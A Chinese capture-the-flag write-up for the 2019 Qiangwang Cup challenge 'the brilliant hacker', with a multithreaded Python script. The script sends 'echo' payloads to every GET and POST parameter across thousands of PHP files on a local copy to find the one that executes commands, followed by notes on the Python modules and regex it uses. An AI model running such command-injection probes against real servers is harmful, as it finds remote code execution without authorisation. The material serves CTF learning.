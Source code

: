 ## [强网杯 2019]高明的黑客

我们下载网页源码：

<img src="https://s2.loli.net/2023/01/13/DadbPemroJRp18H.png" alt="image-20230113212007936" style="zoom: 50%;" />

发现里面居然有3000个文件，这只能脚本来找了。

我们先随便进一个文件：

<img src="https://s2.loli.net/2023/01/13/shHIWXaP4TV8kwr.png" alt="image-20230113212257594" style="zoom:33%;" />

我们发现有些传递进去的参数会被赋值为空，这样就不能够命令执行了，我们需要通过脚本找出传递进行的参数能够进行命令执行并且回显在页面的参数。

因此我们编写脚本。

脚本：

```python
import os
import re
import threading

import requests

filepath = r"D:\Applications\CTF\phpstudy_pro\WWW\src"
uri = "http://127.0.0.1/src/"
os.chdir(filepath)  #改变当前操作目录的路径
files = os.listdir(filepath) #将指定路径下文件或文件夹名称的列表
syn = threading.Semaphore(100)  # 设置线程数最大为100
# requests = requests.Session()
# requests.adapters.DEFAULT_RETRIES = 5
# print(files)
def getAnswer(file):
    syn.acquire()  # 线程锁
    print("--filename:" + file)
    f = open(file, "r")
    content = f.read() #读取文件所有内容
    f.close()
    # print(content)
    gets = re.findall(r"\$_GET\[\'(.*?)\'\]", content) #返回满足正则的get参数名列表
    # print(gets)
    res = re.compile(r"\$_POST\[\'(.*?)\'\]") 
    posts = res.findall(content) #返回满足正则的post参数名列表
    # print(posts)
    parama = {}
    data = {}
    url = uri + file
    for m in gets:
        parama[m] = "echo xxxxxx"
    for n in posts:
        data[n] = "echo xxxxxx"
    # print(parama)

    resp_p = requests.post(url=url, data=data)
    resp_p.encoding = 'utf-8'
    p_text = resp_p.text

    # print(p_text)

    resp_g = requests.get(url=url, params=parama) # 将get参数列表，一次性传递给指定url
    resp_g.encoding = 'utf-8'
    g_text = resp_g.text
    # print(parama)
    # print(g_text)
    # print(list(gets))
    resp_g.close()
    resp_p.close()
    if "xxxxxx" in p_text: # 如果为post传参
        print("----post-")
        for i in posts:
            resp = requests.post(url=url, data={i: "echo xxxxxx;"})
            if "xxxxxx" in resp.text: # 确定post参数名
                print("-------文件名:" + file + "参数名:" + i)
                exit(0)
            resp.close()
    if "xxxxxx" in g_text: #确定为get参数
        # print("----get-")
        for i in gets:
            resp = requests.get(url=url + "?" + i + "=echo xxxxxx;")
            if "xxxxxx" in resp.text: # 确定get参数名
                print("-------文件名:" + file + "参数名:" + i)
                exit(0)
            resp.close()
    syn.release() #释放线程锁


if __name__ == '__main__':
    for file in files:
        thread = threading.Thread(target=getAnswer, args=(file,)) #将file作为参数传给getAnswer()函数
        thread.start() #启动线程
```



编写该脚本需要了解几个知识点：

### os.chdir() 

> **os.chdir(path)** 方法用于改变当前工作目录到指定的路径。
>
> - **path** -- 要切换到的新路径。

### os.listdir() 

> **os.listdir(path)** 方法用于返回指定的文件夹包含的文件或文件夹的名字的列表。
>
> - **path** -- 需要列出的目录路径

### threading.Semaphore(value=x)

>  s=threading.Semaphore(value=10)，value 指示信号量的最大计数，默认是1；在代码设计中可以理解为可用资源数目。(线程数)

`threading`模块中的信号量`Semaphore`对象. 其有两个操作函数, 即`acquire()`和`release()`.

### Semaphore之acquire()

> 将共享资源锁起来

### Semaphore之release()

> 释放锁

### threading.Thread()

> `threading.Thread(group=None, tatget=None,args=(), kwargs ={}, verbose=None, daemon=None)`创建线程类对象，需要有一个可调用的 target，以及其参数 args或 kwargs。
>
> start() 启动线程

### requests.get()

`requests.get(url=url,params=params)` 可以一次传入多个get型参数，参数`params` 要是字典的形式



### re.findall()

> re.findall(pattern, string, flags=0))：返回string中所有与pattern相匹配的全部字符串，得到**列表**.
>
> pattern 符合正则表达式规则



#### 注意点：

**`.*`** **贪婪匹配**，匹配从`.*`前面开始到后面结束的所有内容

```python
str = 'aabbabaabbaa'
print(re.findall(r'a.*b',str))

#输出：
['aabbabaabb']
```

**`.*?`** **非贪婪**，遇到开始和结束就进行截取，因此截取多次符合的结果，中间没有字符也会被截取

```python
str = 'aabbabaabbaa'
print(re.findall(r'a.*?b',str))

#输出
['aab', 'ab', 'aab']
```



如果`re.findall()`正则表达式出现 **`(.*?)`**比上面多了个括号， **只会保留括号内的内容**：

```python
str = 'aabbabaabbaa'
print(re.findall(r'a(.*?)b',str)) # r表示不转义，以原始字符串表示

#输出：
['a', '', 'a']
```



```python
 gets = re.findall(r"\$_GET\[\'(.*?)\'\]", content) #返回满足正则的get参数名列表
    
 res = re.compile(r"\$_POST\[\'(.*?)\'\]") 
 posts = res.findall(content) #返回满足正则的post参数名列表
```

上面脚本中的正则匹配，记得使用正则时记得加上小括号 **()** ，这样匹配到后，只会获得小括号中内容，否则列表中会存在 `$_POST、$_GET` 等字段，影响最后的结果。（这里调试了好久。。）





